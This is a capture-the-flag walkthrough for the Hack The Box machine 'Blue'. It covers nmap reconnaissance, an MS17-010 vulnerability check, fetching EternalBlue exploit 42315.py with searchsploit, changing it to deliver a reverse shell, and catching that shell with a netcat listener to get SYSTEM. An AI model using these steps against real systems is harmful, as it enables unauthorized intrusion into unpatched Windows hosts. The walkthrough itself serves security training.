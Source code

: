 <p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/86ee30d6-5fc7-4c3f-8844-d35480574798">
</p>

<h1 align="center">Blue</h1>

<h2>Intro</h2>

<p>In this walkthrough we are going to talk about the machine <strong>Blue</strong>, it's an easy machine. We are going to me exploiting MS17-010, or Eternal Blue.
EternalBlue is a cyberattack exploit developed by the NSA that targets a vulnerability in Microsoft's SMB protocol. Its purpose is to gain unauthorized access to Windows computers. It had a significant impact, being used in major cyberattacks like WannaCry and NotPetya, causing widespread disruption and damage globally.
You can get more info about it here:
</p>
<a href="https://github.com/blog/eternalblue-nsa-developed-exploit-just-wont-die" align="center">
  <img src="https://gh-card.dev/repos/blog/eternalblue-nsa-developed-exploit-just-wont-die.svg">
</a>

<h2>Walkthrough</h2>

<h3>Recon and ennumeration</h3>

<p>As always we start by doing a fast TCP SYN scan with nmap</p>

<pre>nmap -p- -v -sS -Pn -f -n --min-rate 5000 --open 10.10.10.40 -oG allPorts</pre>

<ul>
  <li><strong>-p-</strong>: we are specifying that we want as many ports as possible to be scanned<li>
  <li><strong>-v</strong>: gives me a more detailed output during the scan</li>
  <li><strong>-sS</strong>: here we specify that we are doing a TCP SYN scan, it's faster than a full TCP scan, at the moment we just want to check the ports</li>
  <li><strong>-Pn</strong>: this flag is set to disable host discovery. It is used when the target does not respond to pings</li>
  <li><strong>-n</strong>: disables DNS resolution, this flag gives us more speed in the scan by avoiding resolving hostname, we will check that later</li>
  <li><strong>--min-rate 5000</strong>: with this flag, we are setting the minimum packet sending rate to 5000 packets per second, it makes the scan faster</li>
  <li><strong>--open</strong>: here we are specifying that we only want to show in the scan result the ports that are open</li>
  <li><strong>-oG allPorts</strong>: I am saving the scan result in a grepeable file called allPorts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/7924a960-3d1d-4f37-bfb5-1b8408b72992">
</p>

<p>We can see that port 445, we are going to do a more thorough scan of the ports to see if we find anything else but, at this point we should directly throw the script that shows if it is vulnerable to MS17-010. Whenever we look at port 445 and see that the system is a Windows XP to Windows Server 2016 system we should check if it is vulnerable to EternalBlue.</p>

<pre>nmap -p135,139,445 -v -Pn -n --min-rate 5000 --open -sCV 10.10.10.40 -oN targeted</pre>

<ul>
  <li><strong>-sC</strong>: It runs default scripts to get more info about our target. Uses common scripts for common vulns</li>
  <li><strong>-sV</strong>: this flag will return the version of the service that is on the open port</li>
  <li><strong>-oN targeted</strong>: this flag outputs the scan on a file named targeted. has a more comprehensible result</li>
</ul>

<p>
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/1d76b40b-5bb6-4735-9674-b4c0cdc92a40">
</p>

<pre>nmap -p445 --script smb-vuln-ms17-010 10.10.10.40</pre>

<ul>
  <li><strong>--script</strong>:  is used to specify Nmap scripts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/d1838ef7-7f55-4a1a-8297-af5ceca9dda2">
</p>

<p>Yep, it's vulnerable to MS17-010!</p>

<h2>Getting inside</h2>

<p>Here we already know that it's vulnerable to EternalBlue, so let's use <strong>searchsploit</strong> to check if Kali has something to deal with it (Kali obviously has tools for it 😄)</p>

<pre>searchsploit ms17-010</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/b54562df-0d78-47e9-a4d5-50bbb31d6bc1">
</p>

<p>We can see a few scripts, the one that has helped me is the script 42315.py. So in the directory we are working in, we do the following to bring us the script</p>

<pre>searchsploit -m windows/remote/42315.py</pre>

<ul>
  <li><strong>-m</strong>: this flag will tell searchsploit to move/copy the script to the current directory</li>
</ul>

<p><strong>IMPORTANT:</strong> I've got some problems with this script becouse it's quite old and it's using Python 2.7, here it is what I've done to make it work:</p>

<ol>
  <li>
    <p>sudo apt update</p>
    <p>sudo apt install build-essential libssl-dev libffi-dev python2 python2-dev</p>
  </li>
  <li>
    <p>curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py</p>
    <p>sudo python2.7 get-pip.py</p>
  </li>
  <li>
    <p>git clone https://github.com/SecureAuthCorp/impacket.git</p>
    <p>cd impacket</p>
  </li>
  <li>git checkout impacket_0_9_22</li>
  <li>sudo pip2 install -r requirements.txt</li>
  <li>sudo python2.7 setup.py install</li>
  <li>pip install pyasn1 pycryptodomex</li>
</ol>

<p>You can also try to clone mysmb.py instead of the whole impacket git, but this is how it worked for me</p>

<p><strong>ALSO IMPORTANT:</strong> I was also looking at the script code and, you have to add or uncomment the two lines below the lines I have added in the smb_pwn() function, this function is just uploading a .txt right now, what we are looking for is to return a reverse shell, so let's prepare it with msfvenom</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/ad2d380a-7c08-4554-86f5-b6e3013e921b">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/392d1791-9b40-4a56-b08d-924d72eb7bee">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/946a71e5-1003-46ca-ab63-e58ee6708104">
</p>

<p>And now if we prepare a listener with <strong>Netcat</strong> and execute the python script we are in! Also we are authority\system already! 😄</p>

<pre>nc -lnvp <PORTOFYOURCHOICE></pre>

<pre>python2 42315.py 10.10.10.40</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/c62aaea8-fd4b-41b1-a515-292594b428bc">
</p>

<p>So we can get both flags!</p>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/de58a251-53c5-4a43-83b4-fca57711af26">
</p>

<p>This machine has been interesting to make, I have learned something more about EternalBlue. Be nice!</p>
